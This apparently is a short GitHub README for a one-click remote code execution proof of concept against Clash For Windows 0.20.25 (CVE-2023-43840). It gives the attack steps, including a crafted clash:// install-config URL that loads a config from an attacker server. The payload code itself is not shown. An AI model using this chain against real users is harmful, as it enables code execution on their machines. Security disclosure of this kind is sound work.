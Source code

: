 # clash_for_windows_1click_RCE
clash_for_windows_1click_RCE

- Run server.py
- Open `clash://install-config?url=http%3A%2F%2Fserver-ip%2Fevil` in the browser
- Try right-clicking on the configuration and clicking `Open the Web`
- Get a nice calculator :)

> Clash For Windows 0.20.25 / CVE-2023-43840
